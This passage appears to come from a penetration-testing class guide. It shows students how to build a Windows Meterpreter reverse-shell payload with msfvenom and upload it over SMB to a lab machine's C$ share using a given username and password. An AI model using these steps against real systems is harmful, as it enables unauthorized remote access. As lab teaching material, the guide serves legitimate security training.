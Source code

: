 - **Note:** Students should follow along with their own machine. They can follow along with the guide linked below: 

    - [Class Do: Custom Payload with Msfvenom](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type `smbclient //172.22.117.20/C$ -U megacorpone/tstark`.

    - This connects to the `C` drive on the remote machine as the user `tstark`. 

3. You will then be asked for a password. Input `tstark`'s password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`
